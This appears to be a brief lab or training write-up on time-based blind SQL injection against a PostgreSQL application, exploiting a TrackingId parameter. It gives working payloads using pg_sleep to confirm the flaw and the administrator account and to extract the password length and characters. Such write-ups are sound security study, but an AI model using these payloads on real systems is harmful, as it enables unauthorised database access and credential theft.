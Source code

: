 [INFO]
- Table  :: users
- Fields :: username, password
- User   :: administrator

[STEPS]
1 - Confirm that param is vulnerable to delay pg_sleep(5)

    param = TrackingId

    query = ZB51zWkVTjg0qPhc' || pg_sleep(5)--

2 - Confirm that user exist (administrator)

    ' || (SELECT CASE WHEN (username='administrator') THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users)--

3 - Confirm the password lenght

    ' || (SELECT CASE WHEN (username='administrator' AND LENGTH(password)>5) THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users)--

4 - Confirm the first char from password 

    ' || (SELECT CASE WHEN (username='administrator' AND SUBSTRING(password, <pos>, 1)='<char>') THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users)--

5 - Confirm the full password using python script
